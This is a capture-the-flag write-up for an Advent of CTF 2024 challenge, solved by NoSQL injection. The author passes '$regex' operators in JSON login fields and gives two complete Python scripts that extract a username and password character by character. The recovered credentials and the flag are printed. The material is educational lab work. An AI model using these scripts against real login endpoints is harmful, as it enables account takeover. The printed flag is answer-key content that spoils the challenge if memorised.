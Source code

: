 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day22_description1.png">
<img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day22_description2.png">

I used Burp Suite where I saw the `/sign-up` call. I investigated further, and I found out that if I sent a `POST` request there, I would receive:

```text
Sign ups are disabled at the moment. Your username is available, though!
```

This message suggests that if the correct username is used, a different message will be displayed. After attempting to bruteforce it using common usernames and after some searching, I found that in json regex could be used. So I could try to look for each character in the username at a time using:

```Json
"username":  { "$regex": "^a" }
```

So I developed a script that does that:

```python
import requests
import json

url = "https://kunal-consulting.csd.lol/sign-up"

username=""
character_set = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

def attempt_login(char):

    global username
    payload = {"username": { "$regex": f"^{username+char}" }, "password": "randompassword"}
    headers = {"Content-Type": "application/json" }

    response = requests.post(url, data=json.dumps(payload), headers=headers)

    if "Your username is available, though!" not in response.text:
        print(f"Success! char: {char} ")
        #print(f"Response: {response.text}")
        username+=char
        return True
    else:
            return False

cont=True

while cont:
    cont=False
    for char in character_set:
        print(f"Trying {char}")
        if attempt_login(char):
            print(username)
            cont=True
            break

print("Username is:")
print(username)
```

Now having the username which is `XhaNy22` I tried to bypass the password check somehow. Finally, I tried to do a similar approach as for the username
this time in the `/login` endpoint:



```python
import requests
import json

url = "https://kunal-consulting.csd.lol/login"

username="XhaNy22"
character_set = "_ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
password=""

def attempt_login(char):

    global username,password
    payload = {"username": username, "password": { "$regex": f"^{password+char}" }}
    headers = {"Content-Type": "application/json"}

    response = requests.post(url, data=json.dumps(payload), headers=headers)

    if "Incorrect username/password" not in response.text:
        print(f"Success! char: {char} ")
        password+=char
        return True
    else:
        return False

cont=True

while cont:
    cont=False
    for char in character_set:
        print(f"Trying {char}")
        if attempt_login(char):
            print(username)
            cont=True
            break

print("password is:")
print(password)
```

The password is `reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_you`, then I logged in in the `/employee-login` endpoint and got the flag.



`csd{cOn5uL7iN9_CHIldR3N_5InC3_2009}`

